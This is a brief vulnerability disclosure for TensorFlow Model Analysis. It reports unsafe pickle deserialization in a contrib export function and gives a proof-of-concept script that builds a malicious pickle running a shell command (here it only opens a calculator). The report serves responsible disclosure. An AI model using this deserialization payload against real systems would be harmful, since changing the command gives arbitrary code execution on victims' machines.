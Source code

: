 # Description
TensorFlow Model Analysis (TFMA) is a library for evaluating TensorFlow models. 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install tensorflow-model-analysis')
from tensorflow_model_analysis.contrib import export
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
export.deserialize_feature_metadata(dumps)
```
* `pip3 install tensorflow-model-analysis`
* `python3 exploit.py`
